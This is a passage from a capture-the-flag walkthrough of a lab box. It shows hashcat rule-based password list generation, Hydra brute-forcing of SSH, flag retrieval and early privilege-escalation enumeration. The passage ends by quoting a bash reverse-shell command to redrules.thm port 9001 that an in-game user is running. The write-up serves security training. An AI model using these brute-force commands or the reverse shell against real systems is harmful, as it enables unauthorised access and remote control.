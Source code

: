 We can then echo the contents from the hidden file to a new file on our attacking machine: `echo "sup3r_p@s\$w0rd\!" > pass.txt` then run the Hashcat tool with the same ruleset used to create permutations of the password: `hashcat --stdout pass.txt -r /usr/share/hashcat/rules/best64.rule > passlist.txt`.

# Initial Access

## Port 22 - SSH

### \[+] blue\@red

After generating the password list, we can use Hydra to bruteforce the SSH login: `hydra -l blue -P passlist.txt ssh://$RHOSTS` the flag `-l` is where we enter the user name `blue`, the flag `-P` specifies we want to use the password list `passlist.txt` and `ssh://` is the protocol we want to attack, and `$RHOSTS` is the environment variable we set at the beginning which holds the IP of the victim machine.

Shortly after running Hydra, we should get the credentials to log into SSH:

![25f7f758adb838d6e09c670cfb568df9.png](/resources/353545511f07486c99fd59c9921c8bc1.png)

Now we can connect to the victim machine via SSH: `ssh blue@$RHOSTS` then enter the password that Hydra found when prompted.

We will find the first flag using the command: `cat /home/blue/flag1` but shortly after, we begin seeing warning messages from the user `red`:

![b7bf23cb441ccaed7f44016fb6e667e6.png](/resources/9723afb34a694c88914ab0b4d73cf6c0.png)

Then we are disconnected and the password has been changed, so we'll have to bruteforce it again using: `hydra -l blue -P passlist.txt ssh://$RHOSTS`.

This time, when connecting via SSH, we will add the `-T` flag which will stop the terminal from getting terminated (more information [here](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/README.md#general-tips-and-tricks)).

# Privilege Escalation

### \[-] red\@red

After some enumeration, we find an interesting entry in the `/etc/hosts` file using: `cat /etc/hosts`:

![fa20a5a7756e1afe267b6bdb414810b4.png](/resources/da0f3c14efee497183db1c7cbe2966a0.png)

Running `ps aux` reveals the next part of the puzzle:

![208302caf9a4ece71ee5465b9c11e9d7.png](/resources/96a4445f7de34abbaa330f044d0479b7.png)

The user `red` is running the command:

`bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &`
